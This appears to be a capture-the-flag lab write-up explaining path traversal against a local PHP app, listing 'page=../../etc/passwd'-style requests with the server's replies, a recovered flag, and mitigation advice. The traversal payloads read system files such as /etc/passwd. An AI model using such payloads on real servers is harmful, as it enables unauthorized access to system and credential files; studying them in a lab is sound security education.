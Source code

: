 ## [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)

Path Traversal occurs when an attacker can manipulate file paths in an application (e.g., through query parameters or user input) to access files or directories outside of the intended directory structure.

The `page` parameter could be vulnerable to path traversal so we test it and we get a hint that we're on the right track:

http://localhost:8080/index.php?page=../etc/passwd -> `Wtf ?`
http://localhost:8080/index.php?page=../../etc/passwd -> `Wrong..`
http://localhost:8080/index.php?page=../../../etc/passwd -> `Nope..`
http://localhost:8080/index.php?page=../../../../etc/passwd -> `Almost.`
http://localhost:8080/index.php?page=../../../../../etc/passwd -> `Still nope..`
http://localhost:8080/index.php?page=../../../../../../etc/passwd -> `Nope..`
http://localhost:8080/index.php?page=../../../../../../../etc/passwd -> `Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`

We could also try absolute paths such as http://localhost:8080/index.php?page=/etc/passwd, but they all return only `Wtf ?`.

Path Traversal is mitigated by:

- Strict Input Validation: only allow expected file paths (whitelist), or reject any sequence containing `..`, `/` or other traversal pattern
- Restricting file access: the server program should only have access to a predefined set of directories
